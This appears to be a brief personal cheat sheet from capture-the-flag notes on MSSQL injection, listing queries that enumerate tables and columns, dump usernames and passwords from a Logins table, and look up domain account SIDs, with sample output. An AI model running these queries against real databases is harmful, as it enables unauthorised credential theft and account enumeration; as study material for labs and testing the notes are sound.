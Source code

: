 # MSSQL Injection

some hit for mssql injection

`LIMIT` function need to know the columns name.

## Like mysql function name 

`GROUP_CONCAT` --> `STRING_AGG`

## List Tables

```mssql
# NO WORK
SELECT STRING_AGG(name,",") FROM master..sysobjects WHERE xtype = 'U'

# WORK
SELECT STRING_AGG(name,',') FROM master..sysobjects WHERE xtype = 'U'
```

## List Columns

Reference: https://www.mytecbits.com/microsoft/sql-server/list-of-column-names

```mssql
SELECT STRING_AGG(NAME,',') FROM SYS.COLUMNS WHERE object_id = OBJECT_ID('Hub_DB..Logins')

```
## Example

```mssql
# Dump id,username,password from HTB_DB..Logins
SELECT STRING_AGG(concat(id,',',username,',',password),'|') FROM Hub_DB..Logins
```

## It also can Enum user

```mssql
$ SELECT DEFAULT_DOMAIN()
MEGACORP
$ SELECT master.dbo.fn_varbintohexstr(SUSER_SID('MEGACORP\Administrator'))
0x0105000000000005150000001c00d1bcd181f1492bdfc236f4010000


```

See: https://book.hacktricks.xyz/pentesting-web/sql-injection/mssql-injection#fn_xe_file_target_read_file